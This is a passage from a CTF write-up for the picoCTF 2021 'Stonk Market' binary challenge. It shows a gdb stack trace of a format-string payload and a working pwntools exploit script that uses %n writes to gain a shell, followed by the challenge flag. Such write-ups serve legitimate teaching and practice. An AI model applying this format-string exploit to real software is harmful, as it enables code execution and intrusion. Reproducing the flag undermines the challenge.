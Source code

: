 :::spoiler 完整的trace stack
```
gef➤  bt 10
#0  0x00007ffff7e40bc4 in printf_positional (s=s@entry=0x7fffffffafc0, format=format@entry=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", readonly_format=readonly_format@entry=0x0, ap=ap@entry=0x7fffffffd680, ap_savep=ap_savep@entry=0x7fffffffab48, done=<optimized out>, nspecs_done=<optimized out>, lead_str_end=<optimized out>, work_buffer=<optimized out>, save_errno=<optimized out>, grouping=<optimized out>, thousands_sep=<optimized out>, mode_flags=<optimized out>) at vfprintf-internal.c:2072
#1  0x00007ffff7e41dcd in __vfprintf_internal (s=s@entry=0x7fffffffafc0, format=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", ap=0x7fffffffd680, mode_flags=<optimized out>) at vfprintf-internal.c:1733
#2  0x00007ffff7e44ea2 in buffered_vfprintf (s=s@entry=0x7ffff7fb86a0 <_IO_2_1_stdout_>, format=format@entry=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", args=args@entry=0x7fffffffd680, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:2377
#3  0x00007ffff7e41d24 in __vfprintf_internal (s=0x7ffff7fb86a0 <_IO_2_1_stdout_>, format=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", ap=ap@entry=0x7fffffffd680, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:1346
#4  0x00007ffff7e2cd3f in __printf (format=<optimized out>) at printf.c:33
#5  0x0000000000400ace in buy_stonks ()
#6  0x0000000000400c66 in main ()
```
:::
## Exploit - FMT
```python=
from pwn import *

if args.LOCAL:
    r = process('./vuln')
else:
    r = remote('mercury.picoctf.net', 5654)

payload = '%c'*10 + '%6299662c' + '%n' + '%216c' + '%20$hhn' + '%10504067c' + '%10$n'

r.sendline(b'1')
raw_input()
r.sendlineafter(b"token?", payload.encode())
r.interactive()
```

Flag: `picoCTF{explo1t_m1t1gashuns_641dcdf1}`
## Reference
[^pico_pwn_stonk_market_wp]:[ picoCTF 2021 Stonk Market ](https://youtu.be/gLFJFXpY44w)